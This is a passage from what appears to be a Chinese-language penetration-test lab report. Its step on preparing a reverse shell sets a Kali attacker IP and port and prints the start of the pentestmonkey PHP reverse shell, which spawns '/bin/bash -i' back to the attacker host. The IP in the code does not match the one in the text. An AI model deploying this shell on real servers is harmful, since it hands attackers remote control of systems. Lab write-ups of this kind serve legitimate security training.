 2. 準備 reverse shell
    - 使用 https://revshells.com 產生 reverse shell
    <img src="RevShellGenerator.png" alt="Generate a reverse shell" width="100%" />
    - IP 設為 Kali 的 IP 位址 `192.168.132.225`
    - port 自訂，但不衝突現存服務為原則，此 report 以 `6666` 示範
        ```php
        <?php
        // php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
        // Copyright (C) 2007 pentestmonkey@pentestmonkey.net

        set_time_limit (0);
        $VERSION = "1.0";
        $ip = '192.168.225.131';
        $port = 6666;
        $chunk_size = 1400;
        $write_a = null;
        $error_a = null;
        $shell = 'uname -a; w; id; /bin/bash -i';
        $daemon = 0;
        $debug = 0;

        if (function_exists('pcntl_fork')) {
            $pid = pcntl_fork();
            
            if ($pid == -1) {
                printit("ERROR: Can't fork");
                exit(1);
            }
            
            if ($pid) {
                exit(0);  // Parent exits
            }
            if (posix_setsid() == -1) {
                printit("Error: Can't setsid()");
                exit(1);
            }
